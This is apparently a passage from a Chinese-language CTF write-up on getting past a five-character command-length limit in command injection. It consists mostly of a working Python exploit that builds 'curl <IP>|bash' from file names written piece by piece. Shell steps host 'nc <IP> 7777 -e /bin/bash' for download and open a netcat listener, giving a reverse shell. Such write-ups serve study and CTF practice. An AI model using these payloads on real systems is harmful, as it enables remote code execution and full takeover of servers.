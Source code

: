 ```py
s.get(url+"sh a")
```

### 长度为5进行绕过

更换期望执行的命令

```shell
curl 192.168.88.141|bash
条件是开启web服务，80端口，在默认index.html页面写入
nc 192.168.88.141 7777 -e /bin/bash
再监听端口
nc -lvp 7777
curl 192.168.88.141
访问并下载默认index.html
|bash
把下载的index.html交给bash执行
即执行nc 192.168.88.141 7777 -e /bin/bash
```

```py
#encoding:utf-8
import time
import requests
baseurl = ""
s = requests.session()

# 将ls -t 写入文件_
list1=[
    ">ls\\",
    "ls>_",
    ">\ \\", # ls默认排序无法正常排出ls -t>y
    ">-t\\", # 借助写入_文件再通过追加的方式
    ">\>y",
    "ls>>_"
]

# curl 192.168.1.161/1|bash
list2=[
    ">bash",
    ">\|\\",
    ">\/\\",
    ">61\\",
    ">1\\",
    ">1.\\",
    ">8.\\",
    ">16\\",
    ">2.\\",
    ">19\\",
    ">\ \\",
    ">rl\\",
    ">cu\\"
]
for i in list1:
    time.sleep(1)
    url = baseurl+str(i)
    s.get(url)

for j in list2:
    time.sleep(1)
    url = baseurl+str(j)
    s.get(url)

s.get(baseurl+"sh _")
s.get(baseurl+"sh y")
```